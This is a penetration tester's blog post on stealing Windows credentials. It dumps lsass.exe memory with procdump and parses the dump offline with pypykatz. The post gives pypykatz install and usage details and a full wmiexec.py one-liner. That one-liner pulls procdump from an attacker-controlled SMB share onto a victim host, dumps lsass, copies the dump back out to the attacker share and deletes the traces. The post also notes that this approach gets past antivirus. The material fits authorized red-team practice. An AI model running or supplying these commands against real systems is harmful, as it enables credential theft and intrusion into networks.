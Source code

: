 ```yaml
---
published: true
comments: true
---
```

Update: [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) now includes the 'lsassy' module which automates the following steps. While the article below still works, if you need dump lsass across multiple hosts, I'd use CrackMapExec as the steps below take a lot more time.

I rarely use Mimikatz for more than parsing memory dumps of lsass.exe taken with procdump64.exe. I'm just not going to risk running Mimikatz from CrackMapExec or uploading Mimikatz to the client's environment when I can bypass antivirus by using wmiexec.py from Impacket to upload procdump64.exe, run the command to make a dump file from lsass.exe, and download it to be processed offline using Mimikatz on a system that I control. If this sounds like a lot of extra steps, it is. This post is about using a Python3 library to save yourself some work when processing those lsass.exe dump file to get credentials.

## About pypykatz

Mimikatz implementation in pure Python. -optimized for offline persing, but has options for live credential dumping as well. Runs on all OS's which support python>=3.6

## Installation

Via pip: 


    pip3 install pypykatz

Via Github:

```
pip3 install minidump minikerberos asn1crypto
git clone https://github.com/skelsec/pypykatz.git
cd pypykatz
python3 setup.py install
```

## Usage:

```
usage: pypykatz [-h] [-v] [--json] [-e] [-o OUTFILE] [-k KERBEROS_DIR]
                {minidump,live,rekall} ...

Pure Python implementation of Mimikatz --or at least some parts of it--

positional arguments:
  {minidump,live,rekall}
                        commands
    minidump            Get secrets from LSASS minidump file
    live                Get secrets from live machine
    rekall              Get secrets from memory dump

optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose
  --json                Print credentials in JSON format
  -e, --halt-on-error   Stops parsing when a file cannot be parsed
  -o OUTFILE, --outfile OUTFILE
                        Save results to file (you can specify --json for json
                        file, or text format will be written)
  -k KERBEROS_DIR, --kerberos-dir KERBEROS_DIR
                        Save kerberos tickets to a directory.
```

## Examples:

Parsing minidump file of the LSASS process:

```
pypykatz minidump <minidump file>
```



Dumping LIVE system LSA secrets:

```
pypykatz live lsa
```

## Thoughts on using pypykatz vs. Mimikatz for parsing creds from lsass.exe memory dumps

Instead of running wmiexec with multiple commands to upload procdump, dump lsass.exe, download the dump file, and copy that over to a Windows host to use Mimikatz: 

Install pypykatz:

`pip3 install pypykatz`

Run Impacket smbserver.py:

`./smbserver.py -smb2support <share name> <path to dir where you have procdump64.exe>`

Run Impacket wmiexec.py:

`./wmiexec.py <domain>/<username>:<password>@<Victim IP> 'copy \\<Attacker IP>\<share>\procdump64.exe . & procdump64.exe -accepteula -64 -ma lsass.exe lsass.dmp & copy lsass.dmp \\<Attacker IP>\<share>\ & del lsass.dmp & del procdump64.exe'`

Dump creds from lsass.dmp:

`pypykatz minidump lsass.dmp`

Note: I've seen pypykatz error out on some editions of Windows 10. If this happens, you'll have to copy that lsass.dmp over to a Windows system under your control and use Mimikatz.
